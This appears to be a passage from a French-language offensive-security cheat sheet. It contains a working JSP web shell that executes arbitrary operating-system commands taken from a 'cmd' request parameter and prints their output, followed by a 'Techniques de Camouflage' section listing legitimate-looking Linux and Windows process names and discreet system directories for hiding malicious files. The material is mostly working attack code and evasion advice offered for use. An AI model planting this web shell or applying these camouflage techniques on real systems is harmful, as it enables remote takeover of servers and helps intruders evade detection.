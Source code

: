 ### JSP Web Shell
```jsp
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd != null) {
    out.println("<pre>");
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String line;
    while ((line = br.readLine()) != null) {
        out.println(line);
    }
    out.println("</pre>");
}
%>

<form method="get">
<input type="text" name="cmd" size="50">
<input type="submit" value="Execute">
</form>
```

## 🔒 Techniques de Camouflage

### Noms de fichiers légitimes
```bash
# Linux - noms système typiques
svchost
systemd-resolve
networkd-dispatcher
update-notifier

# Windows - noms système typiques
svchost.exe
conhost.exe
dwm.exe
winlogon.exe
explorer.exe
```

### Emplacements discrets
```bash
# Linux
/usr/lib/systemd/system-sleep/
/etc/cron.d/
/usr/share/applications/
/opt/google/chrome/
/var/lib/dpkg/

# Windows
C:\Windows\System32\
C:\Windows\SysWOW64\
C:\ProgramData\Microsoft\Windows\
C:\Users\Public\Libraries\
%APPDATA%\Microsoft\Windows\
```
